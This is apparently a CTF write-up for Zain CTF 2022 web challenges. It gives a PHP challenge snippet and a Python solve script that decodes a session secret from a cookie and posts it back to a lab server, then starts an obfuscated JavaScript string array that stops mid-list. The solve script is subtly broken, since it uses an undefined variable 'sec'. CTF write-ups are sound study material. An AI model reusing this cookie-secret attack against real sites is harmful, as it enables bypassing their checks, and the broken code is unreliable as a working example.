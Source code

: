 # Zain CTF 2022 [](https://cybertalents.com/competitions/zain-ctf-2022/teams)

<ImageZoom 
    src="docs/Cybertalents/ZainCTF/ZainCTF.png"
    :border="true"
/>

## Web
### Sonic go brrr <Badge type="success">Easy</Badge>


```php
// ...
if(!isset($_SESSION['flooog']) and !isset($_COOKIE['secret'])) {
	$flog=generateRandomString();
	$_SESSION['flooog'] = $flog;
	$_SESSION['counter'] = mstime();
	setcookie("secret",base64_encode($flog));
}
// ...
if (isset($_POST['Q'])) {
  if ($_POST['Q']== $_SESSION['flooog']) {
    if (  (mstime() - $_SESSION['counter']) < 2999  ){
    echo '<span filter-content="S">You won against sonic!!! GJ Here is a flag for you: flag{f4k3_fl4g}</span>';
    }else{
// ...
```
- [x] Solution :

```python
import requests, base64
from urllib.parse import unquote

session = requests.Session()
url = 'http://wcomekgvdnrf93rq5l3n94wbq36okgvd52qyt9vr-web.cybertalentslabs.com/index.php'
r = session.get(url)
secretCookie = base64.b64decode(unquote(session.cookies.get_dict()['secret']))
print('[+] secret cookie : ', secretCookie)
r = session.post(url, data={"Q": f"{sec.decode('utf8')}"})
print(r.text)

```
### Obfjustu <Badge type="success">Easy</Badge>
got web page with some kind of animation, check HTML source code, found JS minified file, unminify it and saw this piece of code, just throw it in console :
```js
var _cs = [
    "\x6a\x53",
    "\x31\x30\x6e",
    "\x66\x75",
    "\x5f\x77",
    "\x30\x6d\x33",
    "\x43\x6c\x69",
    "\x48\x5f\x73",
    "\x7b\x30\x62",
    "\x61\x67",
    "\x33",
    "\x66\x6c",
    "\x31\x74",
    "\x65\x6e\x74",
    "\x73\x63",
```